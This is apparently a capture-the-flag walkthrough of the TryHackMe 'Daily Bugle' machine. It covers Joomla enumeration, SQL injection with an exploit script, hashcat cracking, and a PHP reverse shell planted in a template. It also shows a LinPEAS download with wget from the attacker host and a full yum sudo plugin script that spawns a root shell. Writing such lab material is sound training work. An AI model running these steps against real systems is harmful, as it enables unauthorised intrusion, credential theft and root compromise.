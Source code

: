 # Enumeration

A quick autorecon scan reveals a number of open ports. We confirm with an nmap scan.
 
![a6ff4cf9e9f985bd7cb1e2491264d1a9.png](/Daily%20Bugle/_resources/a6ff4cf9e9f985bd7cb1e2491264d1a9.png)

![717a1c54c37a686bbed4a6e2feecea66.png](/Daily%20Bugle/_resources/717a1c54c37a686bbed4a6e2feecea66.png)
 
Let's start enumerating the web server. Along with some shocking news, we find a login form.
 
![f8ba35371648d4632c5f5e8b1f779232.png](/Daily%20Bugle/_resources/f8ba35371648d4632c5f5e8b1f779232.png)
 
Examining the `robots.txt` file from our autorecon output (or just navigating to the `/robots.txt` directory) reveals some potentially interesting directories.

```txt
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Let's check the administrator directory. We find a Joomla login form.
 
![556cdf785bd0990447c6209117bb1981.png](/Daily%20Bugle/_resources/556cdf785bd0990447c6209117bb1981.png)
 
We can get more information using the joomscan tool. After installing joomscan, we use `joomscan -ec -u 10.10.53.236`.  The `-ec` flag tells joomscan to enumerate components. Alternatively, we can look around the webpage a bit more. Some Googling tells us that the Joomla version number can be found at `/language/en-GB/en-GB.xml`.
 
![6fc698e1b5863693652d9c2be6164516.png](/Daily%20Bugle/_resources/6fc698e1b5863693652d9c2be6164516.png)
 
Let's also run a gobuster scan to check for any interesting directories.
```bash
gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
```
 
![d5f652010da5f71b2afb2ea5073046c0.png](/Daily%20Bugle/_resources/d5f652010da5f71b2afb2ea5073046c0.png)
 
The `README.txt` files gives us some info about Joomla, including the version number (which we found above through a slightly unconventional method).

<br>

# Exploitation

Since we have a service and a version number, we can begin looking for a vulnerability to exploit. Searchsploit tells us that Joomla 3.7.0 is vulnerable to SQL injection.
 
![dbf7b5f5093d2e5e69069c09c2de9107.png](/Daily%20Bugle/_resources/dbf7b5f5093d2e5e69069c09c2de9107.png)
 
We use ``sqlmap -u http://10.10.50.236 --forms --crawl=10``, selecting all default options along the way. After a while, we don't get any results. One option is to do the SQLi manually; see [this link](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) for a nice writeup.

Some Googling tells us that we can also make use of [this script](https://github.com/XiphosResearch/exploits/tree/master/Joomblah), which is an exploit for Joomla 3.7.0. Run `python2.7 joomblah.py http://10.10.50.236`. (Note: I had to specifically use Python 2.7 here, as the script wasn't running properly.)
 
![1bd76d5497480cfbd64aa3c8feafba9a.png](/Daily%20Bugle/_resources/1bd76d5497480cfbd64aa3c8feafba9a.png)
 
We get a few usernames (one of which we already knew of from the webpage) together with a hash. Let's crack it with hashcat. I typically have some trouble using hashcat on a VM,  so I follow the methodology [here](https://samsclass.info/123/proj10/p12-hashcat.htm) to use an old version of hashcat which my VM could run.

```bash
/home/kali/hash/hashcat-cli32.bin -m 3200 -a 0 -o found.txt hash.txt /usr/share/wordlists/rockyou.txt
```

We specify the path to the binary, and we use:
- `-m` to specify the mode. In this case, I chose 3200 according the list of [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes).
- `-a` specifies the attack mode. 0 corresponds to a dictionary attack.
- `-o` specifies the output file.
- We then specify the file with our hashes (in this case just one), and the path to the wordlist. In this case, we're using `rockyou.txt`.

After exactly 1h 15m, the hash was cracked. This would have gone faster if I had used my Windows host machine to run hashcat, as opposed to my Kali VM image.
 
![afd68c9a45b3e5ad65d0a91905a165b4.png](/Daily%20Bugle/_resources/afd68c9a45b3e5ad65d0a91905a165b4.png)

![35d0c711d7e5c2e106a9637df095cc1a.png](/Daily%20Bugle/_resources/35d0c711d7e5c2e106a9637df095cc1a.png)
 
Now we can log in to Jonah's Joomla account from the administrator login page we found earlier.
 
![901e4e8b85712ca547bd3dc0b82f8d01.png](/Daily%20Bugle/_resources/901e4e8b85712ca547bd3dc0b82f8d01.png)
 
Looking around, we eventually find a page which allows us to edit the templates associated with the Joomla CMS. If we click on the Beez3 template, we see a list of php file which we can potentially exploit. Let's look at the /index.php file.
 
![2efd186e9ae789e0f017c44337ab9493.png](/Daily%20Bugle/_resources/2efd186e9ae789e0f017c44337ab9493.png)

![d9052a8b13b38bdca3e0b2f3d269a9b8.png](/Daily%20Bugle/_resources/d9052a8b13b38bdca3e0b2f3d269a9b8.png)
 
We will use the standard [Pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We copy and paste the shell code into the /index.php file, making sure to use our attacking machine IP and a port of our choice.
 
![1fb736dbb57acf3a7ab718fb45c1e930.png](/Daily%20Bugle/_resources/1fb736dbb57acf3a7ab718fb45c1e930.png)
 
Now set up a netcat listener and navigate to `http://10.10.76.10/templates/beez3/index.php` to catch the reverse shell, giving us initial access.
 
![cd460351fcc4cf08333b8354fe9269ac.png](/Daily%20Bugle/_resources/cd460351fcc4cf08333b8354fe9269ac.png)
 
<br>

# Post-exploitation

Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.
 
![83e467cfd5af8ddef71a1a5ca54f5986.png](:/ef6fef1754134cef922e9b441d0216f3)
 
At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.
 
![def636cb01192ace178966359de736d8.png](:/ba4a4c8d22f5415d9a1d9221bfed94ab)
 
Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.
 
![c394d08ab7b3fd4ae59b407365d2a84b.png](:/49124ee91b074e2db96e3c2fd8c77583)
 
Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. We find a password in a public PHP config file.
 
![1a34e49fbe938a3d2f25ec3018589374.png](:/a6a1fd03e1814f36bcdd8099d535919d)
 
Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.
 
![82bbb48b299ce44bf1c3993fad8b731e.png](:/5cc7bd5d61604f0e8e7e8296088f3c80)
 
Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.
 
![23809e8f1de19246829b7a180af6c061.png](:/2767ac94131442fc826577a098d2c331)
 
Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
  
![ad5d66d1a634cc31982f20b70c324841.png](:/cdd46c7f57164638b8ecda9eed6472e9)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](:/0301af5c6f82486da92af6fb437637af)

</center>